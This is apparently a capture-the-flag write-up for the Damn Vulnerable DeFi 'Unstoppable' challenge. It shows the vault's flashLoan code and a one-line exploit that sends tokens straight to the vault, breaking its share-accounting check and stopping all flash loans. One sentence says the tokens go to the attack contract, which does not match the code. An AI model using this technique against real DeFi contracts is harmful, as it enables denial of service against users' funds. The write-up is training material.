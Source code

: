 First of all, check the origin test script:

```javascript
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Unstoppable', function () {
    let deployer, player, someUser;
    let token, vault, receiverContract;

    const TOKENS_IN_VAULT = 1000000n * 10n ** 18n;
    const INITIAL_PLAYER_TOKEN_BALANCE = 10n * 10n ** 18n;

    before(async function () {
        // Get three person in this test case.
        [deployer, player, someUser] = await ethers.getSigners();

        // deploy token contract and unstoppable contract.
        token = await (await ethers.getContractFactory('DamnValuableToken', deployer)).deploy();
        vault = await (await ethers.getContractFactory('UnstoppableVault', deployer)).deploy(
            token.address,    // token address
            deployer.address, // owner address
            deployer.address  // fee recipient
        );
        
        // check if the token address is equal to the vault asset address.
        expect(await vault.asset()).to.eq(token.address);

        // approve token to the contract and deposit token to it.
        await token.approve(vault.address, TOKENS_IN_VAULT);
        await vault.deposit(TOKENS_IN_VAULT, deployer.address);

        // check all variables.
        expect(await token.balanceOf(vault.address)).to.eq(TOKENS_IN_VAULT);
        expect(await vault.totalAssets()).to.eq(TOKENS_IN_VAULT);
        expect(await vault.totalSupply()).to.eq(TOKENS_IN_VAULT);
        expect(await vault.maxFlashLoan(token.address)).to.eq(TOKENS_IN_VAULT);
        expect(await vault.flashFee(token.address, TOKENS_IN_VAULT - 1n)).to.eq(0);
        expect(
            await vault.flashFee(token.address, TOKENS_IN_VAULT)
        ).to.eq(50000n * 10n ** 18n);

        // set initial balance of player.
        await token.transfer(player.address, INITIAL_PLAYER_TOKEN_BALANCE);
        expect(await token.balanceOf(player.address)).to.eq(INITIAL_PLAYER_TOKEN_BALANCE);

        // deploy the player attack contract.
        receiverContract = await (await ethers.getContractFactory('ReceiverUnstoppable', someUser)).deploy(
            vault.address
        );

        // execute the flash loan.
        await receiverContract.executeFlashLoan(100n * 10n ** 18n);
    });

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
    });

    after(async function () {
        /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

        // It is no longer possible to execute flash loans
        await expect(
            receiverContract.executeFlashLoan(100n * 10n ** 18n)
        ).to.be.reverted;
    });
});
```

So in the test script we can see that it start flash loan, so we have to check the function of flash loan.

```javascript
function flashLoan(
    IERC3156FlashBorrower receiver,
    address _token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    // don't loan anything.
    if (amount == 0) revert InvalidAmount(0);

    // don't loan specific token
    if (address(asset) != _token) revert UnsupportedCurrency();

    // record the balance before loan start.
    uint256 balanceBefore = totalAssets();
    if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance();
    uint256 fee = flashFee(_token, amount);

    // transfer tokens out + execute callback on receiver
    ERC20(_token).safeTransfer(address(receiver), amount);

    // callback must return magic value, otherwise assume it failed
    if (receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data) != keccak256("IERC3156FlashBorrower.onFlashLoan"))
        revert CallbackFailed();

    // pull amount + fee from receiver, then pay the fee to the recipient
    ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
    ERC20(_token).safeTransfer(feeRecipient, fee);
    return true;
}
```

In the flash loan function we can see that only the checks of the balance before loan start can be intervene by the player.

```javascript
    // record the balance before loan start.
    uint256 balanceBefore = totalAssets();
    if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance();
    uint256 fee = flashFee(_token, amount);
```

What we can do is to transfer tokens from player to the attack contract, so that the check by 
```if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance();``` 
will be revert.

So the answer test script can be like this:
```javascript
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Unstoppable', function () {
    let deployer, player, someUser;
    let token, vault, receiverContract;

    const TOKENS_IN_VAULT = 1000000n * 10n ** 18n;
    const INITIAL_PLAYER_TOKEN_BALANCE = 10n * 10n ** 18n;

    before(async function () {
        // Get three person in this test case.
        [deployer, player, someUser] = await ethers.getSigners();

        // deploy token contract and unstoppable contract.
        token = await (await ethers.getContractFactory('DamnValuableToken', deployer)).deploy();
        vault = await (await ethers.getContractFactory('UnstoppableVault', deployer)).deploy(
            token.address,    // token address
            deployer.address, // owner address
            deployer.address  // fee recipient
        );
        
        // check if the token address is equal to the vault asset address.
        expect(await vault.asset()).to.eq(token.address);

        // approve token to the contract and deposit token to it.
        await token.approve(vault.address, TOKENS_IN_VAULT);
        await vault.deposit(TOKENS_IN_VAULT, deployer.address);

        // check all variables.
        expect(await token.balanceOf(vault.address)).to.eq(TOKENS_IN_VAULT);
        expect(await vault.totalAssets()).to.eq(TOKENS_IN_VAULT);
        expect(await vault.totalSupply()).to.eq(TOKENS_IN_VAULT);
        expect(await vault.maxFlashLoan(token.address)).to.eq(TOKENS_IN_VAULT);
        expect(await vault.flashFee(token.address, TOKENS_IN_VAULT - 1n)).to.eq(0);
        expect(
            await vault.flashFee(token.address, TOKENS_IN_VAULT)
        ).to.eq(50000n * 10n ** 18n);

        // set initial balance of player.
        await token.transfer(player.address, INITIAL_PLAYER_TOKEN_BALANCE);
        expect(await token.balanceOf(player.address)).to.eq(INITIAL_PLAYER_TOKEN_BALANCE);

        // deploy the player attack contract.
        receiverContract = await (await ethers.getContractFactory('ReceiverUnstoppable', someUser)).deploy(
            vault.address
        );

        // execute the flash loan.
        await receiverContract.executeFlashLoan(100n * 10n ** 18n);
    });

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const attackTokenContract = token.connect(player);
        await attackTokenContract.transfer(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
    });

    after(async function () {
        /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

        // It is no longer possible to execute flash loans
        await expect(
            receiverContract.executeFlashLoan(100n * 10n ** 18n)
        ).to.be.reverted;
    });
});
```

